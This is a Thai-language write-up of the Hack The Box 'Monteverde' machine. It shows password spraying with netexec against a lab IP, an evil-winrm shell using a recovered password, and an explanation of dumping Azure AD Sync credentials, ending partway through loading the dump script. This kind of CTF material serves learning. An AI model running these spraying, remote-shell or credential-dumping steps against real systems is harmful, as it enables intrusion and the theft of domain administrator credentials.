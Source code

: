 จากข้อมูลไฟล์ดังกล่าวจะเห็นได้ว่ามี password เป็น 4n0therD4y@n0th3r$ 

# Password Spraying 

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service 10.10.10.172  -u ./users.txt -p '4n0therD4y@n0th3r$' ; done
```
![[Challenge/HTB Challenge/Monteverde/IMG/004.png]]

## Shell as mhope 

```bash
evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$ 
```


# Host Enum 
![[Challenge/HTB Challenge/Monteverde/IMG/005.png]]

รัน WinPeas จะพบว่ามีการใช้งาน Azure ซึ่งหากเราสำรวจ mhope จะเห็น .Azure ซึ่งจะเห็นข้อมูลที่น่าสนใจดังต่อไปนี้ 
![[Challenge/HTB Challenge/Monteverde/IMG/006.png]]


### **อธิบายการโจมตี ADSync**
- **Azure AD Sync** จะเก็บข้อมูล credential หรือข้อมูลการเชื่อมต่อกับ Active Directory ลงในฐานข้อมูล SQL Server ภายในเครื่อง
- หากระบบไม่มีการป้องกันที่ดี เช่น การเข้ารหัสข้อมูลรหัสผ่าน หรือจำกัดสิทธิ์การเข้าถึงฐานข้อมูลนี้อย่างเข้มงวด
- ผู้โจมตีที่สามารถเข้าถึงเครื่องเป้าหมายได้ (เช่น ผ่านช่องโหว่อื่น หรือผ่าน session remote shell) อาจดาวน์โหลดและรันสคริปต์ PowerShell 
- สคริปต์นี้จะเชื่อมต่อกับฐานข้อมูล ADSync โดยใช้การเชื่อมต่อที่เชื่อถือได้ (Trusted Connection) และดึงข้อมูลรหัสผ่านของผู้ดูแลระบบออกมา
- ด้วยรหัสผ่านนี้ ผู้โจมตีจะได้สิทธิ์ระดับ **Administrator ของโดเมน** ซึ่งหมายความว่าสามารถควบคุมเครื่อง เซิร์ฟเวอร์ และทรัพยากรในโดเมนได้ทั้งหมด

ref script: 
https://blog.xpnsec.com/azuread-connect-for-redteam/
https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1

## ADSyn 

ก่อนอื่นเราต้องโหลด module ของ ADConnect.ps1 ที่ไดมาไปยังเป้าหมาย จากนั้นตรวจสอบและทำการ dump credential ออกมา 
```powershell
*Evil-WinRM* PS C:\Users\mhope\.Azure> . .\adSyn.ps1
*Evil-WinRM* PS C:\Users\mhope\.Azure> get-modules
The term 'get-modules' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ get-modules
+ ~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (get-modules:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
*Evil-WinRM* PS C:\Users\mhope\.Azure> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
```